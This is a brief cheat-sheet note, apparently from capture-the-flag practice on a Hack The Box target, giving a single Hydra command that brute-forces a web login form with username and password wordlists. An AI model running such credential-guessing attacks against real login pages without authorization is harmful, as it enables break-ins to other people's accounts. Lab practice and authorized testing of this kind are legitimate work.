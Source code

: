 # Hydra

## http post form password brute force attack.  

`hydra -L usernames.txt -P passwords.txt site.htb http-post-form "/path/file.php:fm_usr=^USER^&fm_pwd=^PASS^:Login failed."`
